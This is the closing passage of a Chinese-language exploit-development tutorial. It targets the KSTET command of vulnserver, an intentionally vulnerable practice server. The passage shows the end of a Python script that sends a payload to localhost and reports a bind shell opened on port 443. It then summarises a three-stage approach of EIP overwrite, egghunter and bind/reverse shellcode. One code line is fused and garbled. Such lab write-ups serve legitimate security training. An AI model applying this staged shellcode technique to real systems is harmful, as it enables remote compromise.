s.close()print "[+] Sending buffer (Size: %d)" % len(payload)**# KSTET Command**
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 9999))
print(s.recv(1024))
s.send(payload)
s.close()
```

一旦我们运行了`final_kstet.py`脚本，我们就可以成功地在端口 443 上打开 bind shell。



成功的

# 结论

概括一下:

1.  我们模糊了 vulnserver `KSTET`命令
2.  找到了`KSTET`有漏洞命令的入口点
3.  找到控制`EIP`覆盖的偏移量
4.  找到了`JMP ESP`地址
5.  **【第一阶段外壳代码】**利用 14 字节的空间引入第一阶段外壳代码，将 JMP 缩短到上面带有“A”的更大空间
6.  **【第二阶段外壳代码】**接下来，在“A”空间内引入 Egghunter，以便再次跳转到更大的空间。
7.  **【第三阶段外壳代码】**最后，用`KSTET`命令引入绑定/反转外壳代码。

希望你也从中学到了一些东西。感谢阅读！

